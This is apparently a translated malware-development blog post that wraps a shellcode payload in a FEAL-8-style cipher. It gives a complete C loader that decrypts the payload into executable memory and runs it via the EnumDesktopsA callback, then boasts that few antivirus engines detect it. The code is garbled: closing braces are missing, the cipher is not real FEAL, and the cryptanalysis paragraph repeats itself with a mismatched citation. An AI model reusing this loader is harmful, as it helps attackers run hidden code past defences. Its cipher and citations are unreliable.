




\newpage
\subsection{恶意软件与密码学研究（第 4 部分，第 32 篇）：通过 FEAL-8 算法加密载荷（简单的 C 示例）}

﷽

{width="80%"}

这篇文章是我自己研究如何在恶意软件开发中使用 FEAL-8 分组密码的成果。和往常一样，在探索各种密码学算法时，我决定看看把它用于载荷的加密/解密会有什么效果。

### FEAL

这个算法由日本 NTT 的 Akihiro Shimizu 和 Shoji Miyaguchi 开发。它使用 64 位分组和 64 位密钥。设计目标是创造一个类似 DES、但轮函数更强大的算法，从而能用更少的轮数运行得更快。遗憾的是，现实并没有达到设计目标。

加密过程从一个 64 位明文分组开始。首先，数据分组与 64 位密钥异或。随后，数据分组被分成左右两半。左半部分与右半部分结合，形成新的右半部分。新的左右两半进入 n 轮运算（最初设计为四轮）。在每一轮中，右半部分与 16 位密钥材料（通过函数 f）结合，然后与左半部分异或，形成新的右半部分。新的左半部分则由该轮运算之前的原始右半部分构成。经过 n 轮之后（记住第 n 轮之后不要交换左右两半），左半部分与右半部分异或形成新的右半部分，然后拼接成一个 64 位的整体。在算法结束之前，数据分组再与另外 64 位密钥材料异或。

### 实战示例

首先，我们需要 rotl 函数：

```cpp
// rotate left 1 bit
uint32_t rotl(uint32_t x, int shift) {
  return (x << shift) | (x >> (32 - shift));

```

该函数对一个 32 位无符号整数（`x`）执行按位左循环移位。它把 `x` 的位向左移动指定的位数（`shift`），而从左侧溢出的位会被移动到右侧。按位循环移位常用于密码算法中，用来引入扩散性并混淆数据中的模式。

接下来是 F 函数：

```cpp
uint32_t F(u32 x1, u32 x2) {
  return rotl((x1 ^ x2), 2);

```

该函数是 FEAL-8 算法中核心的混合函数。它接收两个 32 位值（`x1` 和 `x2`），先对它们执行按位异或（`\^{}`），再用前面定义的 `rotl` 函数把结果向左循环移位 2 位。这有助于提高加密过程的非线性程度。

接下来是 G 函数：

```cpp
// function G used in FEAL-8
void G(uint32_t* left, uint32_t* right, uint8_t* roundKey) {
  uint32_t tempLeft = *left;
  *left = *right;
  *right = tempLeft ^ F(*left, *right) ^ *(uint32_t*)roundKey;

```

G 函数是 FEAL-8 每一轮中的主要变换函数。它作用于数据分组的左右两半，执行以下步骤：

保存左半部分（`tempLeft`）。

Sets the left half equal to the right half (`*left = *right`)

- 保存左半部分（`tempLeft`）。
- 将左半部分置为右半部分（`*left = *right`）。
- 用 `tempLeft`、F 函数的结果与轮密钥三者的异或更新右半部分。

该函数在 FEAL-8 的每一轮执行密钥变换，并为数据分组引入必要的扩散与混淆。异或运算和 F 函数帮助混合数据，使加密过程能够抵抗各种攻击。

密钥编排函数从主加密密钥（`key`）生成一系列轮子密钥。它为 FEAL-8 的 8 轮各自生成一个不同的子密钥。在每一轮中，密钥编排对密钥的每个字节与轮索引（`i`）和字节索引（`j`）之和执行异或运算：

```cpp
// key schedule for FEAL-8
void key_schedule(uint8_t* key) {
  for (int i = 0; i < ROUNDS; i++) {
  for (int j = 0; j < 8; j++) {
  K[i][j] = key[j] ^ (i + j);
  }
  }

```

然后是加密逻辑：

```cpp
// FEAL-8 encryption function
void feal8_encrypt(uint32_t* block, uint8_t* key) {
  uint32_t left = block[0], right = block[1];

  // perform 8 rounds of encryption
  for (int i = 0; i < ROUNDS; i++) {
  G(&left, &right, K[i]);
  }

  // final swapping of left and right
  block[0] = right;
  block[1] = left;

```

该函数对一个 64 位数据分组（拆分为两个 32 位半部分：`left` 和 `right`）执行 FEAL-8 加密。它通过在每一轮中使用相应的轮密钥调用 G 函数，完成 8 轮加密。

解密逻辑：

```cpp
// FEAL-8 decryption function
void feal8_decrypt(uint32_t* block, uint8_t* key) {
  uint32_t left = block[0], right = block[1];

  // perform 8 rounds of decryption in reverse
  for (int i = ROUNDS - 1; i >= 0; i--) {
  G(&left, &right, K[i]);
  }

  // final swapping of left and right
  block[0] = right;
  block[1] = left;

```

以及 shellcode 的加密和解密逻辑：

```cpp
// function to encrypt shellcode using FEAL-8
void feal8_encrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint8_t* key) {
  key_schedule(key);  // Generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
  feal8_encrypt(ptr, key);
  ptr += 2;
  }
  // handle remaining bytes by padding with 0x90 (NOP)
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
  unsigned char pad[BLOCK_SIZE] = 
  { 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90 };
  memcpy(pad, ptr, remaining);
  feal8_encrypt((uint32_t*)pad, key);
  memcpy(ptr, pad, remaining);
  }

// function to decrypt shellcode using FEAL-8
void feal8_decrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint8_t* key) {
  key_schedule(key);  // Generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
  feal8_decrypt(ptr, key);
  ptr += 2;
  }
  // handle remaining bytes with padding
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
  unsigned char pad[BLOCK_SIZE] = 
  { 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90 };
  memcpy(pad, ptr, remaining);
  feal8_decrypt((uint32_t*)pad, key);
  memcpy(ptr, pad, remaining);
  }

```

第一个函数负责使用 FEAL-8 加密所给的 shellcode（在我们的例子里是 meow-meow 消息框）。它以 64 位分组（8 字节）为单位处理 shellcode；如果还有剩余字节不足以凑满一个完整分组，就在加密之前用 0x90（NOP）填充。

最后，main 函数演示了如何使用 FEAL-8 对 shellcode 进行加密、解密和执行。和往常一样，我使用了 meow-meow 消息框载荷：

解密后的载荷使用 `EnumDesktopsA` 函数执行。

```cpp
unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

随后使用 `EnumDesktopsA` 函数执行解密后的载荷。

完整源代码看起来像这样（`hack.c`）：

```cpp
/*
 * hack.c
 * encrypt/decrypt payload via FEAL-8 algorithm
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2024/09/12/malware-cryptography-32.html
 */

#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>

#define ROUNDS 8  // FEAL-8 uses 8 rounds of encryption
#define BLOCK_SIZE 8  // FEAL-8 operates on 64-bit (8-byte) blocks

// subkeys generated from the main key
uint8_t K[ROUNDS][8];

// rotate left 1 bit
uint32_t rotl(uint32_t x, int shift) {
  return (x << shift) | (x >> (32 - shift));

// function F used in FEAL-8
uint32_t F(uint32_t x1, uint32_t x2) {
  return rotl((x1 ^ x2), 2);

// function G used in FEAL-8
void G(uint32_t* left, uint32_t* right, uint8_t* roundKey) {
  uint32_t tempLeft = *left;
  *left = *right;
  *right = tempLeft ^ F(*left, *right) ^ *(uint32_t*)roundKey;

// key schedule for FEAL-8
void key_schedule(uint8_t* key) {
  for (int i = 0; i < ROUNDS; i++) {
  for (int j = 0; j < 8; j++) {
  K[i][j] = key[j] ^ (i + j);
  }
  }

// FEAL-8 encryption function
void feal8_encrypt(uint32_t* block, uint8_t* key) {
  uint32_t left = block[0], right = block[1];

  // perform 8 rounds of encryption
  for (int i = 0; i < ROUNDS; i++) {
  G(&left, &right, K[i]);
  }

  // final swapping of left and right
  block[0] = right;
  block[1] = left;

// FEAL-8 decryption function
void feal8_decrypt(uint32_t* block, uint8_t* key) {
  uint32_t left = block[0], right = block[1];

  // perform 8 rounds of decryption in reverse
  for (int i = ROUNDS - 1; i >= 0; i--) {
  G(&left, &right, K[i]);
  }

  // final swapping of left and right
  block[0] = right;
  block[1] = left;

// function to encrypt shellcode using FEAL-8
void feal8_encrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint8_t* key) {
  key_schedule(key);  // Generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
  feal8_encrypt(ptr, key);
  ptr += 2;
  }
  // handle remaining bytes by padding with 0x90 (NOP)
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
  unsigned char pad[BLOCK_SIZE] = 
  { 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90 };
  memcpy(pad, ptr, remaining);
  feal8_encrypt((uint32_t*)pad, key);
  memcpy(ptr, pad, remaining);
  }

// function to decrypt shellcode using FEAL-8
void feal8_decrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint8_t* key) {
  key_schedule(key);  // Generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
  feal8_decrypt(ptr, key);
  ptr += 2;
  }
  // handle remaining bytes with padding
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
  unsigned char pad[BLOCK_SIZE] = 
  { 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90 };
  memcpy(pad, ptr, remaining);
  feal8_decrypt((uint32_t*)pad, key);
  memcpy(ptr, pad, remaining);
  }

int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  int pad_len = my_payload_len + (BLOCK_SIZE - my_payload_len % BLOCK_SIZE) % 
  BLOCK_SIZE;
  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);  // pad with NOPs
  memcpy(padded, my_payload, my_payload_len);

  printf("original shellcode:\n");
  for (int i = 0; i < my_payload_len; i++) {
  printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  uint8_t key[8] = { 0x12, 0x34, 0x56, 0x78, 0x9A, 0xBC, 0xDE, 0xF0 };

  feal8_encrypt_shellcode(padded, pad_len, key);

  printf("encrypted shellcode:\n");
  for (int i = 0; i < pad_len; i++) {
  printf("%02x ", padded[i]);
  }
  printf("\n\n");

  feal8_decrypt_shellcode(padded, pad_len, key);

  printf("decrypted shellcode:\n");
  for (int i = 0; i < my_payload_len; i++) {
  printf("%02x ", padded[i]);
  }
  printf("\n\n");

  // allocate and execute decrypted shellcode
  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);

  return 0;

```

所以，这个示例演示了如何使用 `FEAL-8` 加密算法对载荷进行加密和解密。为便于检查正确性，示例中还加入了打印逻辑。

### 演示

让我们看看实际效果。先编译它（在我的 Linux 机器上）：

```bash
x86_64-w64-mingw32-gcc -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc
```

{width="80%"}

然后，在受害者机器上运行它（我的环境是 Windows 11 x64）：

```powershell
.\hack.exe
```

{width="80%"}

如你所见，一切运行完美！=..=

计算香农熵：

```bash
python3 entropy.py -f hack.exe
```

{width="80%"}

我们的载荷位于 `.text` 节。

让我们把这个 `hack.exe` 上传到 VirusTotal：

{width="80%"}

[https://www.virustotal.com/gui/file/08a7fba2d86f2ca8b9431695f8b530be7ad546e3f7467978bd6ff003b7f9508c/detection](https://www.virustotal.com/gui/file/08a7fba2d86f2ca8b9431695f8b530be7ad546e3f7467978bd6ff003b7f9508c/detection)

如你所见，74 个 AV 引擎中只有 25 个把我们的文件判定为恶意。

### 密码分析

历史上，四轮的 FEAL-4 曾被选择明文攻击成功攻破，随后被彻底击溃。Sean Murphy 后来提出的方法是已知第一个差分密码分析攻击，只需要 20 个选择明文。设计者以此回应，推出了 8 轮的 FEAL，Biham 和 Shamir 在 SECURICOM '89 大会上对它做了密码分析（A. Shamir 和 A. Fiat，“Method, Apparatus and Article for Identification and Signature”，美国专利 #4,748,668，1988 年 5 月 31 日）。针对 FEAL-8 的另一个选择明文攻击（H. Gilbert 和 G. Chase，“A Statistical Attack on the Feal-8 Cryptosystem”，Advances in Cryptology-CRYPTO'90 Proceedings，Springer-Verlag，1991，第 22--33 页）仅用 10000 个分组，就迫使设计者放弃并定义了 FEAL-N——轮数可变的版本（当然多于 8 轮）。Biham 和 Shamir 使用差分密码分析，以比暴力搜索更快的速度（需要 2^64 次选择明文加密）攻破了 N 小于 32 的 FEAL-N。FEAL-16 需要 2^28 个选择明文或 2^46.5 个已知明文才能攻破。FEAL-8 需要 2000 个选择明文或 2^37.5 个已知明文。而 FEAL-4 只需要八个精心挑选的选择明文就能被破解。

Biham 和 Shamir 使用差分密码分析，以比暴力破解更快的速度攻破了 `FEAL-N`（对于 `N < 32`，需要 `2^64` 次选择明文加密）。`FEAL-16` 需要 `2^28` 个选择明文或 `2^46.5` 个已知明文才能攻破。`FEAL-8` 需要 2000 个选择明文或 `2^37.5` 个已知明文。`FEAL-4` 只需八个精心挑选的明文就能被破解。

我希望这篇文章对恶意软件研究人员、C/C++ 程序员有所帮助，能让蓝队成员了解这个有趣的加密技巧，并为红队成员的武器库增添一件武器。

[FEAL-8 encryption](https://en.wikipedia.org/wiki/FEAL)  
[Malware and cryptography 1](https://cocomelonc.github.io/malware/2023/08/13/malware-cryptography-1.html)  
[source code in github](https://github.com/cocomelonc/meow/tree/master/2024-09-12-malware-cryptography-32)
